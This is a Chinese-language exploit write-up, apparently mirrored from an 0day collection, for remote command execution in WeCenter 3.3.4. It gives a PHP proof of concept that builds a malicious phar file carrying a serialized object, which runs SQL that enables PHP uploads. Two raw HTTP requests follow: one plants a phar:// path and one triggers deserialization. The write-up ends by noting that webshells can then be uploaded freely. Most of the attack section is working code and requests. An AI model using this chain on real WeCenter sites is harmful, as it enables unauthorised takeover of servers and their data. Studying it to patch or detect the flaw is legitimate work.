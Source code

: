# WeCenter 3.3.4 远程命令执行

> 原文：[http://book.iwonder.run/0day/WeCenter/WeCenter 3.3.4 远程命令执行.html](http://book.iwonder.run/0day/WeCenter/WeCenter 3.3.4 远程命令执行.html)

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 远程命令执行

**WeCenter** 后台的 **允许的附件文件类型** 处，设置了用户可上传的文件类型后缀。而这个配置是写在数据库中的，我们可以利用前面的任意 **SQL** 语句执行的 **POP** 链，往字段中添加 **php** 文件后缀。

![image](img/3565d677d3490a67517d7f99bbc51519.png)

### poc

```
<?php
class AWS_MODEL
{
    private $_shutdown_query = array();

    public function __construct($_shutdown_query)
    {
        $this->_shutdown_query = $_shutdown_query;
    }
}

$sql = array('update aws_system_setting set value=\'s:45:"jpg,jpeg,png,gif,zip,doc,docx,rar,pdf,psd,php";\' where varname=\'allowed_upload_types\'');
$evilobj = new AWS_MODEL($sql);
// phar.readonly 无法通过该语句进行设置: init_set("phar.readonly",0);
$filename = 'poc.phar';// 后缀必须为 phar，否则程序无法运行
file_exists($filename) ? unlink($filename) : null;
$phar=new Phar($filename);
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($evilobj);
$phar->addFromString("foo.txt","bar");
$phar->stopBuffering();
?> 
```

### 利用

这里以 **RCE** 利用为例子。我们先用上面的 **EXP** 生成文件，然后找个可以上传文件的地方。这里要注意，一定不要选择在用户头像处上传。这里我们通过发起问题的地方来上传文件。

![image](img/d21a15fdd2b7f83a5b9b4111a59343c4.png)

通过如下数据包，将 **headimgurl** 插入数据库中（ **Cookie** 前缀每个网站都不一样，修改成自己的即可）。

```
GET /wecenter334/?/m/weixin/binding/ HTTP/1.1
Host: 0.0.0.0
Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=akl7d5skae6ebea69bp8r1b4f0; CNZZDATA1273638993=564846603-1579067041-%7C1579097763; xhj__user_login=NcIFvaZbkaxoQfofEGo%2FSOCyrXq5R0lZofmF9uqaJHO5tpVyag7GEP3fdh9hKvPUf8Xj4x3kkxgLXcf1L4wocSQu9BUquhozfdiEN2Hfg8vj73XVn1f09yLfbpfbVs7K; xhj__WXConnect={"access_token":{"openid":1},"access_user":{"headimgurl":"phar:\/\/uploads\/question\/20200116\/f39510a7e8e47e3e4dcabbadeedd12f7.gif","nickname":"mochazz"}}
Connection: close
$wx = array(
    'access_token' => array('openid'=>1),
    'access_user'  => array('headimgurl'=>'phar:///uploads/question/20200116/f39510a7e8e47e3e4dcabbadeedd12f7.gif','nickname'=>'mochazz')
);
echo json_encode($wx); 
```

接着通过如下数据包触发 **phar 反序列化** 执行 **SQL** 语句。

```
GET /wecenter334/?/account/ajax/synch_img/ HTTP/1.1
Host: 0.0.0.0
Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=qb72k9k1sl53gqibbg53nf32o1; CNZZDATA1273638993=564846603-1579067041-%7C1579137884; xhj__user_login=N9hSYaQOjPMdtxOXo9jQuCVQSykmK88gl3DTI4AmL%2BnhLpgnHFGGSHkzxAPYaVMbXo%2FAndADc%2FaD0wytUEK71YrLmxWCuEZDCSwn9b0ApyOpcIKa6E4cOotHqZpZwVq%2B
Connection: close 
```

现在，我们就可以随意上传 **webshell** 了。

![image](img/e38562ddc171316049f8f8be438ba2af.png)

![image](img/c9b9a1e745e161b30f900d968e4fbb56.png)

